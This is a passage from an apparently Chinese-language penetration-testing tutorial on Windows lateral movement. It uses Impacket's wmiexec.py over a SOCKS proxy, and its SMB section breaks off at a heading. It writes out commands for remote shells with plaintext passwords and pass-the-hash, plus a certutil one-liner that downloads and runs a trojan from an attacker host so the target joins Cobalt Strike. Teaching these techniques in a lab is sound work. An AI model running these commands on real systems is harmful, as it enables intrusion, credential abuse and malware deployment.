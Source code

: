 可以看到SQLserver成功上线CS

#### wmiexec-impacket

impacket套件中的wmiexec同样可对WMI进行横向移动，并且支持交互式与单执行，支持hash进行传递，相对来说更为方便，这里直接使用它的py脚本配合socket代理就可以对其内网进行横向移动，避免了上传文件等敏感操作。首先设置好Socket代理，与proxifier的代理与代理规则

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OIJnFrzjMnHWicZQiaZSg5KsYS7qOAnhSXrjTdsG8A4QsibltGHNN16DBA/640?wx_fmt=png "null")![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OLtQKFaYVXLURhYezyHlW7ZS5ReqlFgR9oq8wicRRUk9BElGfLN6nssA/640?wx_fmt=png "null")![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0O7sDwiafpF0l4SicUdvyKEeyTQh4mex3BHu8uCpz1mkvu2ygA55YNjECA/640?wx_fmt=png "null")

配置好socket代理与规则后，就可直接在本机中调用wmiexec.py文件对其内网进行wmi利用

```
python wmiexec.py ./administrator:Admin12345@192.168.3.21 # 通过明文密码连接获得目标本地用户交互式shell
python wmiexec.py god/administrator:Admin12345@192.168.3.21 # 通过明文密码连接获得目标域用户交互式shell
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OwiaxLkiaIge0osOcexHAq6ft9oJnHKiaADsoDvOFHjb4Lxznm7N8OtZcw/640?wx_fmt=png "null")![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OpS91siaaUR5iammUVKzSGx01RCOJOVZssgmSgGn3FlF0RocsOjtrtpow/640?wx_fmt=png "null")

通过该命令成功获得一个交互式的shell，那么wmiexec.py也可单执行命令。

```
python wmiexec.py ./administrator:admin!@#45@192.168.3.32 "whoami"  # 以明文密码连接本地用户并执行命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OWmWAK5nVXagp94tVwr0NbuIqrFyOaUPRzLs7ibGy2L882vfnORdnrCQ/640?wx_fmt=png "null")

```
python wmiexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami" # 以hash密码连接本地用户并执行命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OojumuydtfibxboJUd6z2UfryfLSRzcA7mQQ4RiaCzDMDCZBYAYxxaXlQ/640?wx_fmt=png "null")

这里将目标上线CS的方式和上面一致，通过命令下载木马并执行。

```
python wmiexec.py -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/4444.exe c:/4444.exe & C:/4444.exe"
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVvvWMZwzOmMrYGPNk1gic0OpCj4iciaRiaXc7GsUmj90l2hwWUnEDoDCYRH71rQqm6Dz6YYzqOgLcH1A/640?wx_fmt=png "null")

---

## SMB

### 什么是SMB？

SMB（Server Message Block）服务器信息块，它也是一种客户端到服务器的通信协议。除此之外，SMB协议也被称为请求-回复协议。客户端与服务器建立连接后，客户端可以向服务器发送SMB命令允许用户访问共享、打开、读取或者是写入文件

SMB的利用条件

1. 1. 利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。
2. 2. 获得该目标的账号名与密码或hash

   ## SMB利用手法
